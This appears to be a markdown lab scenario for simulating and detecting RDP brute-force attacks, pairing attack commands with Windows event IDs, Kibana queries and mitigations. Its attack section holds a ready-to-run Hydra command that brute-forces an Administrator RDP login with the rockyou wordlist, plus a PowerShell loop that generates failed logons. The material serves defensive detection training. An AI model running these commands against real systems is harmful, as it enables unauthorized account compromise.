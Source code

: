 # 🛡️ Scenario 2: Lateral Movement via RDP Brute Force

## 🎯 Objective

Simulate and detect Remote Desktop Protocol (RDP) brute-force attacks using stolen credentials.

---

## 🧪 Attack Simulation

### ✅ Method 1: Hydra from Kali

```bash
hydra -t 4 -V -f -l Administrator -P /usr/share/wordlists/rockyou.txt rdp://<Windows_VM_IP>
```

### ✅ Method 2: Windows PowerShell Loop

```powershell
for ($i = 0; $i -lt 5; $i++) {
    cmdkey /add:127.0.0.1 /user:fakeuser /pass:wrongpass
    mstsc /v:127.0.0.1
}
```

---

## 📊 Detection

### 🧠 Key Event IDs

| Event ID | Description              |
|----------|---------------------------|
| 4625     | Failed logon attempt     |


---

## 🔍 Kibana Queries

```kql
winlog.event_id:4625 
winlog.event_data.TargetUserName:"Administrator"
```


## 🛡️ Mitigation

- Restrict RDP to known IPs.
- Enable MFA and account lockout.
- Monitor for 4625 spikes.
